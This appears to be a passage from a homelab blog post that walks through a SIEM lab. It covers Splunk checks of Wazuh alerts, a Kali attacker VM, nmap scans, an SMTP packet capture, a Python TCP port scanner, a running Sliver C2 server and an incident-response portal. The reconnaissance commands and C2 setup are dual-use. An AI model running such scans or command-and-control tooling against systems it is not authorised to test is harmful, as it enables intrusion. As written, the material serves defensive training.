The first line selects the same 24-hour Wazuh window. timechart then creates one-hour buckets and a separate count series for each agent.

CLI verification
Finally, I query Splunk directly from the CLI:
# Read the Splunk administrator password without echoing it to the terminal.
read -rsp 'Splunk admin password: ' SPLUNK_PASSWORD
# Move the prompt to a clean line after the hidden input.
echo
# Search the complete Wazuh index and suppress Splunk's changing preview rows.
sudo runuser -u splunk -- /opt/splunk/bin/splunk search \
'index=wazuh-alerts earliest=0 latest=now | stats count by agent.name | sort agent.name' \
-preview false \
-auth "admin:$SPLUNK_PASSWORD"
# Remove the plaintext password from the current shell environment.
unset SPLUNK_PASSWORD
WARNING: Server Certificate Hostname Validation is disabled. Please see server.conf/[sslConfig]/cliVerifyServerName for details.
agent.name count
---------- ------
DC01 97729
SRV01 11560
WS01 5935
WS02 9274
siem01 394291
siem02 4925
This recorded search returned 523,714 alerts across all indexed time. The volume shows that the lab needs tuning, but the count alone does not identify false positives; rule-level review is still required. Because this is a captured result, later runs will return a higher total and a later time boundary.
The monitoring path is now accounted for from endpoint to index. The final section changes perspective and validates what the isolated attacker VM can discover and generate on the same lab network.
KALI
Host and tool inventory
Every other machine is something to protect and monitor; this is the one I attack from. What defines it is the offensive toolset and the absence of any agent.
# Print Kali's host and operating-system identity.
hostnamectl
# Show only the interface that owns an address on the isolated lab subnet.
ip -br address | grep '10.10.10'
Static hostname: kali
Icon name: computer-vm
Chassis: vm 💽
Chassis Asset Tag: No Asset Tag
Machine ID: 1af5c524979847eb81886e393532ddb7
Boot ID: e085988c00474e63994a6b7d2c6059f1
Product UUID: 79f84d56-98fa-e417-cd1f-fe86c88d5a53
AF_VSOCK CID: 1422055970
Virtualization: vmware
Operating System: Kali GNU/Linux Rolling
Kernel: Linux 7.0.12+kali-amd64
Architecture: x86-64
Hardware Vendor: VMware, Inc.
Hardware Model: VMware Virtual Platform
Hardware Serial: VMware-56 4d f8 79 fa 98 17 e4-cd 1f fe 86 c8 8d 5a 53
Hardware Version: None
Firmware Version: 6.00
Firmware Date: Tue 2026-02-17
Firmware Age: 6month 3w
eth1 UP 10.10.10.30/24 fe80::7082:a334:9c2:d6fc/64
Confirm that the most frequently used offensive tools are installed:
# Resolve each named tool to its executable path and discard missing-tool diagnostics.
command -v nmap tshark impacket-GetUserSPNs nxc hashcat responder msfconsole 2>/dev/null
/usr/bin/nmap
/usr/bin/tshark
/usr/bin/impacket-GetUserSPNs
/usr/bin/nxc
/usr/bin/hashcat
/usr/sbin/responder
/usr/bin/msfconsole
Network discovery
A quick nmap scan of the whole estate:
# Discover live hosts without running a port scan, then display only hosts marked up.
nmap -sn 10.10.10.0/24 -oG - | grep 'Up'
Host: 10.10.10.5 () Status: Up
Host: 10.10.10.6 () Status: Up
Host: 10.10.10.10 () Status: Up
Host: 10.10.10.11 () Status: Up
Host: 10.10.10.12 () Status: Up
Host: 10.10.10.20 () Status: Up
Host: 10.10.10.21 () Status: Up
Host: 10.10.10.22 () Status: Up
Host: 10.10.10.31 () Status: Up
Host: 10.10.10.40 () Status: Up
Host: 10.10.10.30 () Status: Up
Next, I run a targeted service-version scan against DC01 and SRV01:
# Create the persistent evidence directory if it does not exist.
mkdir -p '/mnt/external/01 Scripts/02 Health Checks/Linux'
# Probe the selected DC01 and SRV01 service ports and save normal-format output.
sudo nmap -sV -p 8080,3306,25,110,143,445,88,389 10.10.10.12 10.10.10.11 \
-oN '/mnt/external/01 Scripts/02 Health Checks/Linux/Estate-Service-Scan.txt'
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-09 00:26 -0700
Nmap scan report for 10.10.10.12
Host is up (0.0011s latency).
PORT STATE SERVICE VERSION
25/tcp open smtp hMailServer smtpd
88/tcp filtered kerberos-sec
110/tcp open pop3 hMailServer pop3d
143/tcp open imap hMailServer imapd
389/tcp filtered ldap
445/tcp open microsoft-ds?
3306/tcp filtered mysql
8080/tcp open http Microsoft IIS httpd 10.0
MAC Address: 00:0C:29:83:C8:18 (VMware)
Service Info: Host: SRV01; OS: Windows; CPE: cpe:/o:microsoft:windows
Nmap scan report for 10.10.10.11
Host is up (0.00100s latency).
PORT STATE SERVICE VERSION
25/tcp filtered smtp
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2026-09-09 07:26:45Z)
110/tcp filtered pop3
143/tcp filtered imap
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: corp.local, Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
3306/tcp filtered mysql
8080/tcp filtered http-proxy
MAC Address: 00:0C:29:EB:DB:DC (VMware)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 2 IP addresses (2 hosts up) scanned in 15.77 seconds
SMTP packet capture
The service scan establishes the exposed surface. I now capture one controlled application exchange so the network evidence can be compared with server-side delivery evidence.
Now for an SMTP packet capture test. In one terminal, run tshark for 60 seconds over port 25:
# Create the persistent capture directory if it does not exist.
mkdir -p '/mnt/external/01 Scripts/02 Health Checks/Linux'
# Capture only SMTP traffic involving SRV01 on Kali's lab-facing interface for up to 60 seconds.
sudo timeout 60 tshark \
-i eth1 \
-f "host 10.10.10.12 and port 25" \
-w "/mnt/external/01 Scripts/02 Health Checks/Linux/SMTP-Capture-$(date +%Y%m%d-%H%M%S).pcap"
While the capture is running, execute this sender on Kali. The resulting plaintext SMTP session exposes the envelope commands (MAIL FROM and RCPT TO), message headers, and body. This specific test does not authenticate, so it does not produce an AUTH command:
# Import Python's SMTP client.
import smtplib
# Import the standard MIME message builder.
from email.message import EmailMessage
# Create an empty message container.
message = EmailMessage()
# Set a controlled sender address for the lab exercise.
message["From"] = "walkthrough@corp.local"
# Address the message to an existing FakeCorp mailbox.
message["To"] = "pvance@fakecorp.local"
# Label the message so it is easy to identify in the capture.
message["Subject"] = "[LAB] SMTP packet-capture test"
# Add a harmless body whose plaintext should appear in the PCAP.
message.set_content("This message should be visible inside the authorized lab PCAP.")
# Connect to SRV01's plaintext SMTP listener from Kali.
with smtplib.SMTP("10.10.10.12", 25, timeout=10) as smtp:
# Submit the complete message; no AUTH command is used in this test.
smtp.send_message(message)
# Confirm that the SMTP server accepted the submission.
print("Message accepted by SRV01.")
Identify the newest capture and inspect its SMTP packets:
# Select the most recently written SMTP capture.
PCAP=$(ls -1t '/mnt/external/01 Scripts/02 Health Checks/Linux'/SMTP-Capture-*.pcap | head -n 1)
# Decode only SMTP packets from that capture.
tshark -r "$PCAP" -Y smtp
4 0.003415430 10.10.10.12 → 10.10.10.30 SMTP 83 S: 220 SRV01 ESMTP
6 0.003903709 10.10.10.30 → 10.10.10.12 SMTP 84 C: ehlo [127.0.1.1]
7 0.005150555 10.10.10.12 → 10.10.10.30 SMTP 122 S: 250-SRV01 | SIZE 20480000 | AUTH LOGIN | HELP
8 0.005743138 10.10.10.30 → 10.10.10.12 SMTP 111 C: mail from:<walkthrough@corp.local> size=259
9 0.009171021 10.10.10.12 → 10.10.10.30 SMTP 74 S: 250 OK
10 0.009372274 10.10.10.30 → 10.10.10.12 SMTP 99 C: rcpt to:<pvance@fakecorp.local>
11 0.013678800 10.10.10.12 → 10.10.10.30 SMTP 74 S: 250 OK
12 0.013806087 10.10.10.30 → 10.10.10.12 SMTP 72 C: data
13 0.015407542 10.10.10.12 → 10.10.10.30 SMTP 81 S: 354 OK, send.
14 0.015580522 10.10.10.30 → 10.10.10.12 SMTP/IMF 328 from: walkthrough@corp.local, subject: [LAB] SMTP packet-capture test, (text/plain) | .
16 1.040665741 10.10.10.12 → 10.10.10.30 SMTP 94 S: 250 Queued (1.024 seconds)
17 1.040889449 10.10.10.30 → 10.10.10.12 SMTP 72 C: QUIT
18 1.041830097 10.10.10.12 → 10.10.10.30 SMTP 79 S: 221 goodbye
Minimal TCP scanner
The packet capture shows one protocol in detail. This final script reduces service discovery to its basic operation and preserves the result beside the other Kali health-check evidence.
Now for a TCP connect scanner that shows the core operation behind nmap -sT: attempt a TCP handshake on each selected port and record which connections succeed.
# Import the socket API used to attempt TCP connections.
import socket
# Import pathlib so the result can be stored on persistent media.
import pathlib
# Select the application server to scan.
target = "10.10.10.12"
# Limit the scan to the lab's expected service ports.
ports = [22, 25, 80, 110, 143, 445, 3306, 8080]
# Collect ports that complete the TCP connection attempt.
open_ports = []
# Test each selected port in sequence.
for port in ports:
# Create a new IPv4 TCP socket for this attempt.
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# Limit the wait for filtered or unreachable ports.
sock.settimeout(0.7)
try:
# A zero result means the TCP three-way handshake completed.
if sock.connect_ex((target, port)) == 0:
open_ports.append(port)
finally:
# Release the socket after every attempt.
sock.close()
# Format one reusable evidence line.
result = f"{target} open: {open_ports}"
# Display the result for immediate review.
print(result)
# Keep the result beside the other persistent Kali health-check evidence.
output = pathlib.Path("/mnt/external/01 Scripts/02 Health Checks/Linux/Python-TCP-Scan.txt")
# Create the output directory if it does not already exist.
output.parent.mkdir(parents=True, exist_ok=True)
# Write the evidence as UTF-8 text.
output.write_text(result + "\n", encoding="utf-8")
10.10.10.12 open: [22, 25, 80, 110, 143, 445, 8080]
C2-01
The lab's most recent addition is another Ubuntu server that hosts Sliver, which is an open source cross-platform adversary emulation/red team framework.
hostnamectl
ip -brief address
ip route
timedatectl
df -h /
findmnt /mnt/external
Static hostname: c2-01
Icon name: computer-vm
Chassis: vm 🖴
Chassis Asset Tag: No Asset Tag
Machine ID: 7c3d49b10bde45b189707d11c5148ff1
Boot ID: d333f0587a0145f9952fea5a06d7e79f
AF_VSOCK CID: 714559368
Virtualization: vmware
Operating System: Ubuntu 26.04 LTS
Kernel: Linux 7.0.0-31-generic
Architecture: x86-64
Hardware Vendor: VMware, Inc.
Hardware Model: VMware Virtual Platform
Hardware Version: None
Firmware Version: 6.00
Firmware Date: Tue 2026-02-17
Firmware Age: 6month 3w
lo UNKNOWN 127.0.0.1/8 ::1/128
ens33 UP 192.168.81.130/24 metric 100 fe80::20c:29ff:fe97:4f88/64
ens37 UP 10.10.10.31/24 fe80::20c:29ff:fe97:4f92/64
default via 192.168.81.2 dev ens33 proto dhcp src 192.168.81.130 metric 100
10.10.10.0/24 dev ens37 proto kernel scope link src 10.10.10.31
192.168.81.0/24 dev ens33 proto kernel scope link src 192.168.81.130 metric 100
192.168.81.2 dev ens33 proto dhcp scope link src 192.168.81.130 metric 100
Local time: Wed 2026-09-09 08:41:41 UTC
Universal time: Wed 2026-09-09 08:41:41 UTC
RTC time: Wed 2026-09-09 08:41:41
Time zone: Etc/UTC (UTC, +0000)
System clock synchronized: yes
NTP service: active
RTC in local TZ: no
Filesystem Size Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv 19G 8.6G 9.1G 49% /
TARGET SOURCE FSTYPE OPTIONS
/mnt/external
//10.10.10.10/External
cifs rw,relatime,vers=3.1.1,cache=strict,upcall_target=app,username
systemctl is-active sliver
systemctl status sliver --no-pager
sudo ss -lntp | grep -E '(:31337|:443)'
active
● sliver.service - Sliver C2 Server
Loaded: loaded (/etc/systemd/system/sliver.service; enabled; preset: enabled)
Active: active (running) since Wed 2026-09-09 06:31:07 UTC; 2h 11min ago
Invocation: c75b1443ca324bdda3d3d76da76143ed
Main PID: 1208 (sliver-server)
Tasks: 7 (limit: 3936)
Memory: 163.1M (peak: 168.6M)
CPU: 1.190s
CGroup: /system.slice/sliver.service
└─1208 /usr/local/bin/sliver-server daemon --lhost 10.10.10.31 --lport…
Sep 09 06:31:07 c2-01 systemd[1]: Started sliver.service - Sliver C2 Server.
LISTEN 0 4096 10.10.10.31:31337 0.0.0.0:* users:(("sliver-server",pid=1208,fd=15))
LISTEN 0 4096 *:443 *:* users:(("sliver-server",pid=1208,fd=13))
I'm still in the process of learning how Sliver works. Its purpose is to provide more realism for the future adversary emulation labs.
LabWatch
I have a front-end incident management portal which automatically ingests high severity alerts:

This is the most exciting and rewarding part of the homelab. It allows me to address incidents using the mindset of a SOC analyst and not just an enthusiast.
I even have knowledge base articles for recurring incidents and additional reference material:

The MITRE ATT&CK framework is built-in to the incident response template:

Each INC has links to open the corresponding event in Wazuh or Splunk (including the correlated events):

The INC evidence package can be downloaded as a .zip file, containing the raw JSON event files and analyst commands used.

There's also a MITRE framework coverage mapping:

What's Next
I'm sitting at the seat of an enterprise network SIEM generating hundreds to thousands of events per day. The high/severe/critical alerts ship to the custom LabWatch portal, where they are addressed and if necessary, followed up by a fine tuning rule to address any false positives. As I progress in adversary emulation TTPs, I will conduct attack/defend scenarios and log the entire process using a formal incident response template which is built in a way where I can further develop my BASH, PowerShell, networking, and Python skills:
| Gate | Lifecycle stage | Bash/Linux | Python | PowerShell | Networking |
|---|---|---|---|---|---|
| G0 | Authorization and safety | scope and snapshot notes | - | - | - |
| G1 | Baseline | Linux host and service health | health-check verdict | Windows state and agent health export | capture interface and filter ready |
| G2 | Controlled attack | attacker transcript with true exit state | attack driver or verdict | Windows-side attack, if any | pcapng of the action |
| G3 | Detection and triage | Linux source events | parse Wazuh archives and alerts by field | Windows event XML by named field | flow that confirms the network action |
| G4 | Scope and attribution | account and host enumeration | correlate and join across sources | process and identity lineage | endpoints, direction, certificate, timing |
| G5 | Containment and preservation | Linux-side collection first | evidence completeness check | collection and containment action | capture continuity across containment |
| G6 | Remediation | Linux config or credential fix | verify residue is gone | remove persistence or vulnerable condition | confirm the channel is closed |
| G7 | Recovery and validation | service restore checks | re-run verdict, attack should now fail | service and telemetry validation | confirm normal flow, attack path dead |
| G8 | Review and improvement | evidence hashing and inventory completion | metrics computation | detection tuning export | annotated capture for the report |